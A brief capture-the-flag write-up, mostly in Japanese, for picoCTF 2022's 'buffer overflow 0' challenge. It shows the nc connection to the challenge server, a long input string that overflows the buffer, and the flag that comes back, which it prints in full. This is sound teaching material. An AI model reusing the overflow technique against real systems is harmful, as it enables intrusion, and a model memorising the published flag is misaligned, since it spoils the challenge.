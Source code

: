 # buffer overflow 0:Binary Exploitation

Let's start off simple, can you overflow the correct buffer? The program is available [here](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202022/buffer%20overflow%200/vuln). You can view source [here](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202022/buffer%20overflow%200/vuln.c). Connect using: `nc saturn.picoctf.net 55002`

# Solution

とりあえず、バッファオーバーフローさせる。
```
$ nc saturn.picoctf.net 62802
Input: fffffffffffffffffffffffffffffffffffffff
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
フラグが出てきてしまった。

`picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`

